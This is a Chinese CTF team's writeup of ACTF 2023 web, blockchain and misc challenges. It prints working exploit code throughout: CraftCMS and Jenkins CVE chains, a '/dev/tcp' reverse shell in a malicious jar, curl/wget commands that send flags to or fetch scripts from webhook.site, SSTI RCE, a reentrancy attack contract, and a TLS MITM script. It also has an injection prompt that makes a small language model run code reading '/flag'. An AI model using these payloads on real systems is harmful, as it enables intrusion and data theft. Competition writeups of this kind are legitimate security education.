








感谢 AAA 的师傅们精心准备的比赛！本次ACTF我们 SU 取得了 第二名🥈的成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，欢迎发送个人简介至：suers_xctf@126.com 或者直接联系书鱼 QQ:381382770。

以下是我们 SU 本次 2023 ACTF的 writeup。


<!--more-->


# Web

### craftcms

和CVE-2023-41892有关

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-41892

利用该cve可以完成包含文件的操作。

```Bash
POST / HTTP/1.1
Host: 61.147.171.105:59935
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 198

action=conditions/render&configObject=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/etc/passwd"}]}}
```

直接打文件包含+session进度上传。

```Python
import io
import requests
import threading

sessid = 'hhhm'

def POST(session):
    f = io.BytesIO(b'a' * 1024 * 50)
    session.post(
        'http://ip/index.php',
        data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php phpinfo();?>"},
        files={"file":('q.txt', f)},
        cookies={'PHPSESSID':sessid}
    )

with requests.session() as session:
    while True:
        POST(session)
        print("[+] 成功写入sess_hhhm")
```

一边上传一边包含即可：

```SQL
POST / HTTP/1.1
Host: 61.147.171.105:59935
Accept-Encoding: gzip, deflate
Accept: /
Accept-Language: en
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 233

action=conditions/render&configObject=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/tmp/sess_hhhm"}]}}
```

### easy latex

preview路由存在xss

这里可控


可以加载我们的恶意js文件



跟进visit函数


这里是我们的bot机器人
所以这里存在CSRF漏洞，req.parm支持url编码解析，加上preview路由能够让bot触发远程js
/share/%2e%2e%2f%70%72%65%76%69%65%77%3f%74%65%78%3d%68%75%61%68%75%61%26%74%68%65%6d%65%3d%2f%2f%31%32%34%2e%32%32%30%2e%32%31%35%2e%38%3a%37%38%39%30%2f%68%75%61%68%75%61
成功访问到


正好可以加载我们的恶意js文件
在huahua目录下面去写入我们的恶意js文件
bot的cookie里面有flag，但是存在httponly,无法盗取cookie


```
通过fetch post请求 login 和 vip，获取flag
const loginUrl = '/login';
const vipUrl = '/vip';
const loginCode = 'huahua';

const loginData = new URLSearchParams({
  username: '//webhook.site/2fcfc4a8-99ed-433e-8fa9-bc3e6eaadcb2',
  password: 'ff62b1d5596a16100cc26611d8cb8be1',
});

const fetchOptions = {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded',
  },
  body: loginData,
};

async function loginAndFetchVip() {
  try {
    const loginResponse = await fetch(loginUrl, fetchOptions);

    if (loginResponse.ok) {
      const vipResponse = await fetch(vipUrl, {
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: new URLSearchParams({ code: loginCode }),
        credentials: 'include',
      });
      // Handle vipResponse here as needed
    } else {
      // Handle loginResponse errors here
    }
  } catch (error) {
    // Handle any fetch-related errors here
    console.error(error);
  }
}

loginAndFetchVip();
```
接着去加载恶意的js文件
/share/%2e%2e%2f%70%72%65%76%69%65%77%3f%74%65%78%3d%68%75%61%68%75%61%26%74%68%65%6d%65%3d%2f%2f%31%32%34%2e%32%32%30%2e%32%31%35%2e%38%3a%37%38%39%30%2f%68%75%61%68%75%61
成功收到请求



### hook

Gateway: http://124.70.33.170:8088/

Intranet jenkins service: http://jenkins:8080/

nginx/1.25.3

解题过程：

https://www.zzwa.org.cn/4553/

https://www.cidersecurity.io/blog/research/how-we-abused-repository-webhooks-to-access-internal-ci-systems-at-scale/

参考上面的利用gitlabs搭配完成攻击内网jenkins的操作。

gitlabs上面部署webhooks，然后让hook去访问http://124.70.33.170:8088/，发现携带了body，导致站点给出方式不支持的错误，但是gitlabs貌似不支持自定义请求格式，所以这里用302跳转去清空请求头，这样访问到页面就是get方式。

这时候站点提示让我携带redirect_url参数，测了好久发现用题干给的http://jenkins:8080/就可以直接访问题目，发现版本号jenkins-2.138，直接打cve：https://aluvion.github.io/2019/02/26/CVE-2019-1003000%E5%A4%8D%E7%8E%B0/

php开302

```SQL
<?php
header("Location: ".$_GET["redirect_url"]);   
//确保重定向后，后续代码不会被执行   
?>  
```

写恶意jar：

```SQL
//echo Hhhh123 > META-INF/services/org.codehaus.groovy.plugins.Runners
//javac  Hhhh123.java
//jar cvf poc-1.jar ./Hhhh123.class  ./META-INF/
public class Hhhh123 {
    public Hhhh123(){
        try {
            java.lang.Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/vps/port 0>&1");
        } catch (Exception e) { }

    }
}
```

name：什么都可以

root：vps ip

group：a即https://x.x.x.x/a目录，group用一次后jar会缓存，所以每次失败都得重新生成。

module、version：恶意jar文件的名字，即module-version.jar

最后形成：`http://<vps_ip>:<port>/hh3/hhhhhh/1/hhhhhh-1.jar`

Exp:

```SQL
http://vps:port/index.php?redirect_url=http%3A%2F%2F124%2E70%2E33%2E170%3A8088%2F%3Fredirect%5Furl%3Dhttp%3A%2F%2Fjenkins%3A8080%2FsecurityRealm%2Fuser%2Fadmin%2FdescriptorByName%2Forg%2Ejenkinsci%2Eplugins%2Eworkflow%2Ecps%2ECpsFlowDefinition%2FcheckScriptCompile%3Fvalue%3D%2520%40GrabConfig%28disableChecksums%3Dtrue%29%250a%2520%40GrabResolver%28name%3D%2527orange%2Etw%2527%2C%2520root%3D%2527http%3A%2F%2F139%2E159%2E197%2E129%3A10003%2F%2527%29%250a%2520%40Grab%28group%3D%2527hh3%2527%2C%2520module%3D%2527hhhhhh%2527%2C%2520version%3D%25271%2527%29%250a%2520import%2520Hhhh123%3B%0A
```

### Ave Mujica's Masquerade

仔细阅读CVE-2021-42740分析文章https://wh0.github.io/2021/10/28/shell-quote-rce-exploiting.html

```Bash
#!/bin/sh
curl -T /flag-???????????????? http://webhook.site/<id>/
```

```Plain
http://<url>/checker?url=127.0.0.1:`:`wget$IFS\webhook.site/<id>/$IFS\-O$IFS/tmp/s.sh``:`
http:/<url/checker?url=127.0.0.1:`:`sh$IFS\/tmp/s.sh``:`
```

### mygo

命令注入，简单绕过一些过滤即可。

checker?url=:1%0d-iL%09/flag-????????????????%09-oN%09/dev/stdout

### story

需要使得vip为true才能进行后续操作，这里需要generate_code等于session中的vip，generate_code

但似乎没找到python预测随机数的办法，爆破显然实现不了，只找到一个可能的实现方法，如下

https://stackoverflow.com/questions/42646039/how-do-i-predict-the-output-of-pythons-random-number-generator

flask-session不会改变，所以成为一次vip就可以一直使用同一个session

```Bash
import requests
from story.utils.captcha import Captcha, generate_code

while True:
    headers = {"User-Agent": "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)",
               "Connection": "close", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en", "Accept": "*/*"}

    gen = Captcha(200, 80)
    gen.generate()
    captcha = generate_code()

    requests.get("http://124.70.33.170:23001/captcha", headers=headers)

    rawBody = "{\"captcha\":\"" + captcha + "\"}"
    print(rawBody)
    session = requests.Session()

    headers2 = {"Accept": "*/*",
                "User-Agent": "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)",
                "Connection": "close", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en",
                "Content-Type": "application/json"}
    response = session.post("http://124.70.33.170:23001/vip", data=rawBody, headers=headers2)

    print(session.cookies.items())
```

带上session`/write`​路由传ssti payload，在/story触发ssti，有个waf

发现`SECRET_KEY`​是写在config里面的，story是从session里面直接获取，直接伪造session即可绕过waf执行ssti rce，所以想办法获取config

waf随机取三条规则，当输入符合这三个规则集其中一条时，返回 False，如果任何一个规则集未被满足，返回 True，不进入下面判断

```Bash
if not minic_waf(story):
    session['username'] = ""
    session['vip'] = False
    return jsonify({'status': 'error', 'message': 'no way~~~'})
```

waf规则中有一条不带有config，由于规则抽取的随机性，当三条规则都为rule6时，config将不再触发waf，所以固定session重放获取`SECRET_KEY`​

```Bash
{"story":"{{config}}"}
```

然后伪造session中story ssti rce

```Bash
@app.route('/getsession', methods=['GET'])
def getsession():
    session['story']="{{g.pop.__globals__.__builtins__['__import__']('os').popen('cat flag').read()}}"
    return session['story']
```

# Misc

### 东方原神大学

​

​

### Viper

题目描述

​

​

​

​

[题目附件](https://img.seaeye.cn/file/ACTF2023/Viper.zip)

解题思路

**这题非常明显地暗示了**​`Viper(Vyper)`​这一关键词，不难联想到前段时间的[Curve](https://curve.fi/)的[重入攻击事件](https://www.jinse.cn/news/blockchain/3652359.html)（[事件分析 By ZAN](https://mp.weixin.qq.com/s?__biz=MzkyNjUxNjU2Mg==&mid=2247483687&idx=1&sn=58153099c034ac14caf9532ed79dbd15&chksm=c237551af540dc0c1695015037243f6eafd7c992be2df8f629455e3c2ec1c92b412a3dc83b8b&mpshare=1&scene=23&srcid=0802tCsLC82V3aInevV5qMmk)/[事件分析 By 零时科技](https://learnblockchain.cn/article/6341)），大致情况是**智能合约编程语言**​[Vyper](https://github.com/vyperlang/vyper)的`0.2.15`​、`0.2.16`​、`0.3.0`​版本编译器存在**重入锁故障**（即在一笔交易中，两个不同函数的重入锁，并不共享一个锁变量，**导致合约可以被跨函数重入攻击**）。

**将题目合约代码**​`Viper.vy`​转换为等价的[Solidity](https://github.com/ethereum/solidity)代码，并删去`nonreentrant`​修饰器函数以便阅读（删去仅是为了方便理解，实际上单函数自身的重入锁是有效的），得到`Viper.sol`​如下：

​

[重入](https://ctf-wiki.org/blockchain/ethereum/attacks/re-entrancy/)这一攻击类型也是经常接触到的，我在这里就直接给出**函数调用路径**而不作详细解释了：

0. **我们的目标是****清空题目合约中的ETH余额**，初始状态下余额为**3 ETH**
1. **构造**​`receive`​函数，在触发重入效果时执行`deposit`​ `coins[1]`​操作：

    ```
    receive() external payable {
            if (msg.value == 1) {
                uint256 amount = token.balanceOf(address(this));
                target.deposit(1, amount);
            }
        }
    ```
2. **调用**​`preSwap`​函数，使用`msg.value=1 ether(ETH is coins[0])`​兑换得到`coins[1]`​的`balances`​，同时提前`approve`​以便后续`transferFrom`​成功：

    ```
    function preSwap() external payable {
            target.swap{value: msg.value}(0, 1, msg.value);
            token.approve(address(target), type(uint256).max);
        }
    ```
3. **调用**​`hack`​函数，循环执行`4`​次，每次`withdraw`​所拥有的全部`coins[1]`​，并且将其`swap`​为`ETH(coins[0])`​，同时附带`msg.value=1 wei`​以便重入到`receive`​函数时进行识别，在执行`4`​次循环后我们就有足够的`balances[0]`​来`withdraw`​题目合约上所有的**4 ETH(3+1=4)**：

    ```
    function hack() external payable {
            uint256 amount = target.balances(1, address(this));
            for (uint i = 0; i < 4; i++) {
                target.withdraw(1, amount);
                target.swap{value: msg.value}(1, 0, 0);
            }
            target.withdraw(0, address(target).balance);
        }
    ```
4. **这样我们便能够在不消耗**​`coins[1]`​的`balances`​的同时（在重入过程中`withdraw`​又`deposit`​，值没有改变），增加了`_after`​和`_before`​的差值（在`_before`​值记录之前就已经`withdraw`​出来了`coins[1]`​，而`_after`​的增量来自于`deposit`​，这个过程中执行了`swap`​zhi 之外的`transferFrom`​）从而增加我们的`balances[0]`​，**跨函数重入**利用成功。

**以下是攻击合约**​`Farmer.sol`​和解题脚本`solve.py`​的代码：

​

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Viper.sol";

contract Farmer {
    ERC20 token = ERC20(address(0x50155B59Bd8BB2740A62E8E8900dac78E94eA22D));
    Viper target =
        Viper(payable(address(0x0A6FA9c756a4a14EC615F3279cA8549fd3650B5B)));

    function preSwap() external payable {
        target.swap{value: msg.value}(0, 1, msg.value);
        token.approve(address(target), type(uint256).max);
    }

    function hack() external payable {
        uint256 amount = target.balances(1, address(this));
        for (uint i = 0; i < 4; i++) {
            target.withdraw(1, amount);
            target.swap{value: msg.value}(1, 0, 0);
        }
        target.withdraw(0, address(target).balance);
    }

    function getBalance0() external view returns (uint256) {
        return target.balances(0, address(this));
    }

    function getBalance1() external view returns (uint256) {
        return target.balances(1, address(this));
    }

    function isSolved() external view returns (bool) {
        return target.isSolved();
    }

    receive() external payable {
        if (msg.value == 1) {
            uint256 amount = token.balanceOf(address(this));
            target.deposit(1, amount);
        }
    }
}
```

```
from Poseidon.Blockchain import *

chain = Chain("http://120.46.58.72:8545")
account = Account(chain, "<PrivateKey>")

abi, bytecode = BlockchainUtils.Compile("Farmer.sol", "Farmer")
contract: Contract = account.DeployContract(abi, bytecode)["Contract"]

contract.ReadOnlyCallFunction("getBalance0")
contract.ReadOnlyCallFunction("getBalance1")
contract.CallFunctionWithParameters(Web3.to_wei(1, 'ether'), None, 1000000, "preSwap")
contract.ReadOnlyCallFunction("getBalance0")
contract.ReadOnlyCallFunction("getBalance1")

contract.CallFunctionWithParameters(1, None, 1000000, "hack")
contract.ReadOnlyCallFunction("isSolved")
```

​

**得到****flag**为：

```
ACTF{8EW@rE_0F_vEnom0us_sNaK3_81T3$_as_1t_HA$_nO_cOnSc1ENCe}
```

### AMOP1

题目描述

​

​

[题目附件](https://img.seaeye.cn/file/ACTF2023/AMOP1.zip)

解题过程

**这题基于****国产联盟链**​[FISCO BCOS](https://github.com/FISCO-BCOS/FISCO-BCOS)构建，主要的知识点是**链上信使协议**​[AMOP (Advanced Messages Onchain Protocol)](https://fisco-bcos-doc.readthedocs.io/zh-cn/latest/docs/design/amop_protocol.html)，题目描述中给了足够多的提示，只需使用现成的工具连接到题目区块链环境并订阅消息即可。

**下载并构建交互工具（提前安装好 **`java 8`​ 或以上版本）：

```
git clone https://github.com/FISCO-BCOS/java-sdk-demo.git
cd java-sdk-demo
git checkout origin/main-2.0
./gradlew build
```

**之后修改**​`dist/conf/amop/config-subscriber-for-test.toml`​中的`network`​配置项：

​

**然后将题目附件中的**​`ca.crt`​、`sdk.crt`​、`sdk.key`​、`privkey`​四个文件移动到`dist/conf`​目录下：

​

**最后分别执行下面两条命令，订阅并获取**​`公共频道(flag1)`​和`私有频道(flag2)`​的消息：

```
java -cp 'conf/:lib/*:apps/*' org.fisco.bcos.sdk.demo.amop.tool.AmopSubscriber 'flag1'

java -cp 'conf/:lib/*:apps/*' org.fisco.bcos.sdk.demo.amop.tool.AmopSubscriberPrivateByKey subscribe 'flag2' conf/amop/privkey
```

​

​

**拼接后得到****完整flag**为：

```
ACTF{Con5oR7ium_B1ock_cHAiN_sO_INterESt1NG}
```

### AMOP2(非预期 未正确解出)

题目描述

​

​

[题目附件](https://img.seaeye.cn/file/ACTF2023/AMOP2.zip)

解题思路

**这题在第一题的基础上增加了难度，虽然研究了很久，但由于是初识****FISCO BCOS**，对底层原理等深入的内容并不了解，没有正常解出。但推测大致思路是基于[中间人攻击 MITM](https://en.wikipedia.org/wiki/Man-in-the-middle_attack)，自行搭建一个中间节点，与题目节点互相建立`P2P连接`​，同时加入联盟链成为`观察者节点 Observer`​，由于`AMOP`​协议会将消息也同步发送给`观察者节点`​，由于消息本身未进行加密，只是多加了一层身份验证，那么这样我们自己的中间节点便可以捕获到`消息发送者 Publisher`​通过`AMOP`​协议发送到`私有频道`​的消息原文，可以借助它完成或绕过身份验证并读到**flag**消息。

[链上信息传输协议文档](https://fisco-bcos-doc.readthedocs.io/zh-cn/latest/docs/design/amop_protocol.html)：

​

​

**（以上是比赛时的非预期解结果，我意外解出的原因大概是在我订阅消息的同时出题人恰好运行了他的**​`solve`​脚本，此时由于证书文件一致或是联盟链身份验证的一些特性，导致我这边也临时通过了身份检验，共享了他的成果，意外地拿到了**flag**，后续本着**实事求是**的比赛精神，经过双方联系达成了**此次非预期作答不计分**的共识。）

**以下是出题人赛后提供的**​`solve`​脚本，本质上是基于文档中`私有话题的认证流程`​部分内容从`网络通信层`​进行`中间人攻击`​，留作参考：

```
from pwn import *
import abc
import socket
import ssl
from ssl import SSLContext
import json
import requests
context.log_level = 'DEBUG'

# create SSL context
context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)
context.check_hostname = False
context.load_verify_locations("./conf/ca.crt")
context.load_cert_chain("./conf/sdk.crt", "./conf/sdk.key")
context.set_ecdh_curve("secp256k1")
context.verify_mode = ssl.CERT_REQUIRED

# TARGET_IP = "127.0.0.1"
TARGET_IP = "120.46.58.72"
# TARGET_PORT = 20202 # node2
TARGET_PORT = 41202
# TARGET_RPCPORT = 8547
TARGET_RPCPORT = 48547

PUBLISHER_IP = "127.0.0.1"
PUBLISHER_PORT = 20200  # node1
SUBSCRIBER_IP = "127.0.0.1"
SUBSCRIBER_PORT = 20201

conn = remote(host=TARGET_IP, port=TARGET_PORT, typ="tcp", ssl=True, ssl_context=context, timeout=120)

# let's subscribe a topic here
# which means we need to craft a channel packet
# see class ChannelMessage


def packChannelMsg(type: int, seq: bytes, status: int, payload: bytes):
    # 4 bytes length
    # 2 bytes type
    # 32 bytes seq
    # 4 bytes result
    # then payload
    CHANNEL_HEADER_LENGTH = 42
    result = b""
    result += p32(CHANNEL_HEADER_LENGTH + len(payload), endian="big")
    result += p16(type, endian="big")
    result += seq
    result += p32(status, endian="big")
    result += payload
    return result

##
# 1. fake topices
##


# AMOP_CLIENT_SUBSCRIBE_TOPICS = 50
# packet = packChannelMsg(50, b"\x00" * 32, 0, b'["flag"]')
# coool, but careful, this topic will be set VERIFYING_STATUS
# we also set channel here, we can hear the random UUID now
packet = packChannelMsg(50, b"\x00" * 32, 0, b'["#!$TopicNeedVerify_flag","#!$VerifyChannel_#!$TopicNeedVerify_flag"]')
conn.send(packet)
# wait the topic sync
info("Sleep a while")
time.sleep(3)

##
# 2. leak verify
##
# TODO
# can we do this with channel request instead of RPC request

packet = '{"jsonrpc":"2.0","method":"getPeers","params":[1],"id":1}'
rpcRes = requests.post(f"http://{TARGET_IP}:{TARGET_RPCPORT}", data=packet)
rpcRes = rpcRes.text
rpcResDict = json.loads(rpcRes)
hijackTopic = ""
for peer in rpcResDict["result"]:
    for topic in peer["Topic"]:
        info(f"iterate {topic}")
        if topic.startswith("#!$VerifyChannel_#!$TopicNeedVerify_flag"):
            hijackTopic = topic
            break

if not hijackTopic:
    error("Fail to get topic")
    exit(1)

info(f"Cool we get the hijack topic: {hijackTopic}")
# let's get the random UUID here

# conn.recvuntil(b"#!$VerifyChannel_#!$TopicNeedVerify_flag", drop=True)
# randomuuid = conn.recv(32)
badTopic = b"#!$VerifyChannel_#!$TopicNeedVerify_flag"
requestPacket_1 = conn.recvuntil(badTopic)
info(f"we receive verify request header {requestPacket_1}")

requestPacket_seq = requestPacket_1[-(len(badTopic) + 4 + 1 + 32):-(len(badTopic) + 4 + 1)]
assert (len(requestPacket_seq) == 32)
info(f"we get the seq {requestPacket_seq.hex()}")
randomuuid = conn.recv(32)  # badTopic[randomuuid_idx:]
info(f"Steal the random number: {randomuuid}")

# we need to quickly achieve MITM
# verify_packet = conn.recv()
# info(f"packet with UUID: {verify_packet}")

# let's send a request to see if we can get the answer for this
# and try to fake the reply
# AMOP_REQUEST = 48
conn_hide = remote(host=TARGET_IP, port=TARGET_PORT, ssl=True, ssl_context=context)
target_topic = hijackTopic.encode()  # to bytes
target_payload = bytes([len(target_topic) + 1]) + target_topic + randomuuid
packet = packChannelMsg(48, b"\x00" * 32, 0, target_payload)
conn_hide.send(packet)

# what we will receive here ?
reply = conn_hide.recv()
info(f"hide channel receives: {reply}")
# get the signature here
signature_idx = reply.index(target_topic) + len(target_topic)
signature = reply[signature_idx:]
info(f"hacked signature: {signature.hex()}")

# reply
# AMOP_RESPONSE = 0x31
# be careful with the seq blabla
requestPayload = bytes([len(badTopic) + 1]) + badTopic + signature
reply_packet = packChannelMsg(0x31, requestPacket_seq, 0, requestPayload)

conn.send(reply_packet)

conn.interactive()
conn_hide.interactive()
```

### SLM

先交互爆破

```Bash
from pwn import *
import hashlib


random_number = "ctd5"

nonce = 0
while True:
    data = random_number + str(nonce)
    h = hashlib.sha256()
    h.update((data).encode())
    bits = "".join(bin(i)[2:].zfill(8) for i in h.digest())
    #print(bits)
    if bits[:22] == "0000000000000000000000":
        break
    nonce += 1
print(f"PoW完成，找到的nonce值为: {nonce}")
```

本地调试poc

`Olivia has $23.then print(open('/flag').read();; She bought five bagels for $3 each.How much money does she have left?`​

本地验证

​

log记录

​

远程超级卡

直接用脚本的多跑几次

```Bash
from pwn import *
import hashlib

context.log_level="debug"
# 服务器地址和端口
server_address = ('47.113.227.181', 30009)

# 创建一个连接到服务器的连接对象
conn = remote(server_address[0], server_address[1])

conn.recvline()
# 接收UmGd（随机数）从服务器
random_number = conn.recvline().decode().strip()

print(random_number)
random_number=random_number[7:11]
# 尝试不同的整数值，直到找到满足PoW条件的值
nonce = 0
while True:
    data = random_number + str(nonce)
    h = hashlib.sha256()
    h.update((data).encode())
    bits = "".join(bin(i)[2:].zfill(8) for i in h.digest())
    #print(bits)
    if bits[:22] == "0000000000000000000000":
        break
    nonce += 1

# 发送PoW结果给服务器
conn.sendline(str(nonce))
conn.recv()

print(f"PoW完成，找到的nonce值为: {nonce}")

print(conn.recvuntil('>'))
conn.sendline("Olivia has $23.then `print(open('/flag').read();`; She bought five bagels for $3 each.How much money does she have left?")
print(conn.recv())
print(conn.recv())
print(conn.recv())
conn.interactive()
```

​

### CTFer simulator

一个用TS(JS)写的在线游戏模拟器

https://github.com/morriswmz/phd-game

```Java
if (t !== i.EndGameState.None) return this._gameState.playerInventory.count("flag") >= 8 && this._gameState.tracer.check(), void(yield this.start(t === i.EndGameState.Winning));
```

只要flag>8游戏就胜利了，正在思考怎么调

可以用代理拦截重写配置文件 增加每次flag获取 但是flag为10的时候结束游戏也没有弹出flag

​

​

flag数>=8后到达获胜条件之后会触发一个check()函数(正常游玩基本上不可能达到8的)：

​

会构造一个请求向后端发送请求，传输的数据包括随机数种子，随机数以及用户的行为，如果满足条件应该就可以拿到flag了，请求包格式为：

```Go
POST /api/verify HTTP/1.1
Host: http://120.46.65.156:23000/
Referer: http://120.46.65.156:23000/static/
Content-Type: application/json
Accept: application/json
Content-Length: 1031

{
    "randomseed": "9099412735381858",
    "randoms":[0.5140692999120802,0.3860794377978891,0.7347333114594221,0.3968554774764925,0.8094464894384146,0.8490356937982142,0.39441126654855907,0.8459157436154783,0.16993460129015148,0.9875658398959786,0.3602522125001997,0.839919890044257,0.22587694227695465,0.57798264734447,0.1990677216090262,0.022076266119256616,0.04661894147284329,0.8104400581214577,0.5792863611131907,0.9961340674199164,0.03275181073695421,0.9454671153798699,0.8649262373801321,0.9651431469246745,0.8917619856074452,0.4506879821419716,0.047111596213653684,0.14828399359248579,0.5607137372717261,0.452212214237079,0.5840967365074903,0.7207855097949505,0.7038476958405226,0.5140720165800303,0.08320645405910909,0.291031195782125],
    "traces": [
["event",["flagCheck",[]]],
["event",["flagCheck",[]]],
["event",["flagCheck",[]]],
["event",["flagCheck",[]]],
["event",["flagCheck",[]]],
["event",["flagCheck",[]]],
["event",["flagCheck",[]]],
["event",["flagCheck",[]]],
["event",["flagCheck",[]]]
]
}
```

现在在思考怎么构造

可以用#init_seed= 来控制随机数的seed 用的seedrandom的alea方法生成随机数

游戏共48小时 有48次机会

复习使用一次

考试会跳过1h

一次flag流程：

insight->draft->tuned->submit共用4次

每小时降低10点精力

考试额外降10点

提交flag恢复10点

goodinsight恢复10点

可以规划出一个需要最少休息的路线 并控制prng使其实现

写了一个爆破种子的脚本

```Python
var seedrandom = require('seedrandom');

var seed = 5;
var numberOfTries = 0;

while (true) {
    seed++;
    var found = true;
    var random = seedrandom.alea(seed.toString());
    for (var i = 0; i < 50; i++) {
        var r = random();

        if (r >= 0.5) {
            found = false;
            break;
        }
    }

    if (found) {
        console.log(`Seed found: ${seed}`);
        break;
    }

    numberOfTries++;
    if (numberOfTries % 100000 === 0) {
        console.log(`Tried ${numberOfTries} seeds...`);
    }
}
```

30个0.6以下的随机数:3830475

35个0.6以下的seed #init_seed=44702381 用这个随便打了一下 能打到7个flag 我觉得这个种子优化一下操作肯定能出

唉 傻逼了 改获取flag没法通过校验但是可以改用户的体力

​

把这个events.yaml的返回包抓了，这个是配置文件，改成：

```Go
---
- id: Init
  trigger: Initialization
  once: true
  actions:
    - id: UpdateVariableLimits
      updates:
        player.energy: [0, 10000]
    - id: UpdateVariables
      updates:
        elapsedHour: 0
        hour: 8
        day: 1
        player.energy: 10000
        player.examLevel: 0
        player.hourSkipped: 0
# Game tick loop
- id: GameTick
  trigger: Tick
  actions:
    - id: UpdateVariables
      updates:
        elapsedHour: elapsedHour + 1
        hour: (hour % 24) + 1
        day: floor((elapsedHour + 9) / 24) + 1
    - id: TriggerEvents
      triggers:
        - id: HourBegin
# Game begin event
- id: TheBeginning
  trigger: HourBegin
  once: true
  actions:
    - id: DisplayChoices
      message: message.beginning
      choices:
        - message: message.acceptCTF
          actions:
            - id: DisplayMessage
              message: message.acceptedCTF
              confirm: message.excited
            - id: DisplayMessage
              message: message.examNotice
              confirm: message.ok
            - id: SetStatus
              statusId: freshness
              on: true
        - message: message.declineCTF
          actions:
            - id: EndGame
              message: message.declinedCTF
              confirm: message.restartNewTimeline
              winning: true
      confirm: message.excited
  
- id: HourSkipUpdate
  trigger: HourBegin
  actions:
  - id: UpdateVariables
    updates:
      player.hourSkipped: max(player.hourSkipped - 1, 0)
# Energy
# -10 for day time
- id: EneryUpdateDayTime
  trigger: HourBegin
  conditions:
  - id: Expression
    expression: elapsedHour > 1 && hour >= 7 && hour < 23 && player.hourSkipped === 0
  actions:
  - id: UpdateVariables
    updates:
      player.energy: player.energy - 10
# -20 for night time
- id: EneryUpdateNightTime
  trigger: HourBegin
  conditions:
  - id: Expression
    expression: elapsedHour > 1 && (hour < 7 || hour >= 23) && player.hourSkipped === 0
  actions:
  - id: UpdateVariables
    updates:
      player.energy: player.energy - 20
# may have addition energy change
- id: EneryUpdateEffective
  trigger: HourBegin
  conditions:
  - id: Expression
    expression: elapsedHour > 1 && player.hourSkipped === 0
  actions:
  - id: UpdateVariables
    updates:
      player.energy: player.energy + calcEffectValue('player.energyBoost', 0)
- id: LostAllEnergy
  trigger: HourBegin
  conditions:
    - id: Expression
      expression: player.energy <= 0
  actions:
    - id: EndGame
      message: message.lostAllEnergy
      confirm: message.restart
      winning: false
# exam event
- id: Qualify
  trigger: HourBegin
  once: true
  conditions:
